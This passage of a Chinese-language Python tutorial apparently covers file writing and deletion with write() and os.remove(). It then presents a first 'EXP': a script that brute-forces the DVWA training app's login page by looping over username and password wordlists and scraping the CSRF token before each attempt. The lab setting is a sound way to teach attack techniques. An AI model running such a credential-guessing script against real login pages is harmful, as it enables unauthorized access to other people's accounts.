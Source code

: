 ### write() 方法

write() 方法将字符串写入文件中，默认是不换行的，如果想换行的话，得手动加入换行符 ‘\n’

```python
f = open('D:/test2.txt','a+')

f.write('hello world\n')
```

**a+** 为追加模式 

如果是 **w+** 的话，则会覆盖掉之前的内容，然后重新写入 

### 文件删除：

文件删除使用 **os** 模块的 **remove()** 函数去完成 

前面在 os 模块中也有提到过

### os.remove(path)

**os.remove(path)** 删除指定的文件。若 path 为一个目录，则引 PermissionError 异常

```python
>>> import os
>>> r = os.remove('D:/test.txt')  #  删除在D盘下的test.txt文件
>>> print(r)
```

## 基础就这些，其他的需学以致用



## 第一个EXP-DVWA登录爆破

```python
import sys
import requests
import re

url = 'http://10.1.10.1/login.php'
headers = {
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0'
        }
# 读取用户名
with open(r'.\user.txt', 'r') as username_file:
    usernames = username_file.readlines()
# 读取密码
with open(r'.\pass.txt', 'r') as password_file:
    passwords = password_file.readlines()
# 对每对用户名和密码尝试登录
for username in usernames:
    for password in passwords:
        session = requests.Session()
        response1 = session.get(url)
        user_token = re.search(r'[0-9a-z]{32}', response1.text)

        data = {
            'username': username.strip(),
            'password': password.strip(),
            'Login': 'Login',
            'user_token': user_token.group()
        }
        response2 = session.post(url, data=data, headers=headers)

```